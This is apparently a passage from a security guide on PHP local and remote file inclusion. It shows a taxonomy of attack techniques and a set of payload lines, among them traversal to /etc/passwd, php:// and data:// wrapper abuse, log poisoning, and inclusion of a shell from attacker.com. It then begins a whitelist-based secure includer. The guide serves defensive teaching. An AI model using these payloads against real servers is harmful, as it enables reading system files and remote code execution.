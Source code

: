 #### File Inclusion Attack Vectors
```
File Inclusion Categories:
├── Local File Inclusion (LFI)
│   ├── Path traversal attacks
│   ├── Null byte injection
│   ├── Double encoding bypass
│   ├── Log poisoning techniques
│   └── Wrapper abuse (php://, data://)
├── Remote File Inclusion (RFI)
│   ├── HTTP-based inclusion
│   ├── FTP-based inclusion
│   ├── SMB share inclusion
│   ├── Data URI inclusion
│   └── PHP wrapper exploitation
├── Advanced LFI Techniques
│   ├── Proc filesystem exploitation
│   ├── Session file poisoning
│   ├── Email log poisoning
│   ├── Apache log poisoning
│   └── SSH log poisoning
└── Filter Bypass Methods
    ├── Encoding-based bypasses
    ├── Case variation techniques
    ├── Unicode normalization abuse
    ├── Compression wrapper bypass
    └── Stream filter chains
```

**LFI/RFI Payload Examples:**
```php
// Basic LFI
include($_GET['file']);
// Payload: ?file=../../../etc/passwd

// Null byte bypass (PHP < 5.3)
?file=../../../etc/passwd%00.php

// PHP wrapper exploitation
?file=php://filter/convert.base64-encode/resource=config.php
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+

// Log poisoning
?file=../../../var/log/apache2/access.log
// After injecting PHP code in User-Agent

// Remote file inclusion
?file=http://attacker.com/shell.php
?file=ftp://attacker.com/shell.php
```

**Secure File Inclusion Implementation:**
```php
<?php
class SecureFileIncluder {
    private $allowed_files = [
        'home' => 'templates/home.php',
        'about' => 'templates/about.php',
        'contact' => 'templates/contact.php',
        'products' => 'templates/products.php'
    ];
    
    private $base_path = '/var/www/app/';
    
    public function includeFile($file_key) {
```